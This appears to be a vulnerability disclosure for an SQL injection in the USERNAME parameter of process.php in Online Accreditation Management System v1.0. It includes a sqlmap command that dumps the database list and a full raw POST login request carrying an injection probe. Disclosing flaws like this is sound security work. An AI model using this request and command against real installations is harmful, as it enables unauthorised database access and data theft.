 # Online-Accreditation-Management-System-v1.0-SQLi
**[Online Accreditation Management System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/online-accreditation-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/adonesevangelista/)
---

![image-20220527131251530](png01.png)


### Description:

---

The vulnerability page is ```process.php```

```http://your-ip/AccreditationSystem/```


Online Accreditation Management System v1.0  

The ```USERNAME``` parameter in the ```process.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:

Save the POST request package in `1.txt`, and then run the sqlmap

`python sqlmap.py -r 1.txt  --dbs` 

[+]POST request package

```
POST /AccreditationSystem/process.php?action=loginagency HTTP/1.1
Host: 10.211.55.3
Content-Length: 40
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.3
Referer: http://10.211.55.3/AccreditationSystem/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kc1vvdqjtt94b9i5461cf4s5r2
Connection: close

USERNAME=ff%E9%8E%88%27%22%5C%28&PASS=ff
```


### In action:

---

![image-20220527130708845](png02.png)

![image-20220527131145577](png03.png)


### Proof and Exploit:

---
<source src="poc.mp4" type="video/mp4">
